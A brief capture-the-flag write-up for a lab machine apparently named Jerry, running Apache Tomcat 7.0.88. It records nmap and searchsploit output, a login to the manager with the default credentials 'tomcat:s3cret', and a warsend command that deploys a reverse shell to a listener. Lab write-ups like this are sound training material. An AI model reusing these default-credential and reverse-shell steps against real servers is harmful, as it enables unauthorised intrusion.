

# Jerry

## NMAP

* Nmap result [[NMAP]]

```console
PORT STATE SERVICE REASON VERSION
8080/tcp open http syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

## Searchsploit

* `searchsploit Tomcat 7.0.88`

```text
------------------------------------------------------------------------------------------------ ---------------------------------

Exploit Title | Path

------------------------------------------------------------------------------------------------ ---------------------------------

Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code | jsp/webapps/42966.py

Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code | windows/webapps/42953.txt

------------------------------------------------------------------------------------------------ ---------------------------------
```

* `Not Vulnerable to CVE-2017-12617`

## Tomcat

* Running Default creds to access the /manage/html endpoint from [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)
* `tomcat:s3cret`

## Shell

* Using [Warsend]([https://github.com/thewhiteh4t/warsend](https://github.com/thewhiteh4t/warsend)) and the above credentials we can get a shell back

```bash
./warsend.sh 10.10.10.10 9001 10.10.10.1 8080 tomcat s3cret revshell
```

